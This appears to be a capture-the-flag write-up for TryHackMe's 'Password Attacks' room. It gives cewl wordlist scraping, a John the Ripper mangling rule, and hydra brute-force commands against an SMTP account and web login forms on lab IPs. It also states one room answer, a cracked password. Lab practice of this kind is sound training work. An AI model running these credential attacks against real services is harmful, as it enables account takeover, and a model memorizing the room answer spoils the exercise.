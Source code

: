 # Password Attacks

**Room Link:** [https://tryhackme.com/room/passwordattacks](https://tryhackme.com/room/passwordattacks)



## Deploy the VM

Creating a wordlist from this site as recommend in the room.

**Kali**

```
cewl -m 8 -w clinic.lst https://clinic.thmredteam.com/  
```

## Offline Attacks

**In this question, you need to generate a rule-based dictionary from the wordlist clinic.lst in the previous task. email: pittman@clinic.thmredteam.com against 10.10.131.68:25 (SMTP).**

**What is the password? Note that the password format is as follows: \[symbol]\[dictionary word]\[0-9]\[0-9].**

#### **john.conf**

```
[List.Rules:THM-Password-Attacks]
Az"[0-9][0-9]" ^[!@#$]
```

**Kali**

```
john --wordlist=clinic.lst --rules=THM-Password-Attacks --stdout > dict.lst
hydra -l pittman@clinic.thmredteam.com -P dict.lst smtp://$VICTIM:25 -v
```

Answer is !multidisciplinary00

**Perform a brute-forcing attack against the phillips account for the login page at http://10.10.130.199/login-get using hydra? What is the flag?**

<figure><img src="../../.gitbook/assets/image (2) (9) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (21) (5).png" alt=""><figcaption></figcaption></figure>





**Kali**

```
hydra -l phillips -P ../dict.lst 10.10.130.199 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
```



<figure><img src="../../.gitbook/assets/image (12) (2).png" alt=""><figcaption></figcaption></figure>



\
**Perform a rule-based password attack to gain access to the burgess account. Find the flag at the following website: http://10.10.130.199/login-post/. What is the flag?**

**Note: use the clinic.lst dictionary in generating and expanding the wordlist!**



**Kali**

```
john --wordlist=clinic.lst --rules=Single-Extra --stdout > dict2.lst

./hydra -l burgess -P dict2.lst 10.10.130.199 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 
```

<figure><img src="../../.gitbook/assets/image (14) (8).png" alt=""><figcaption></figcaption></figure>
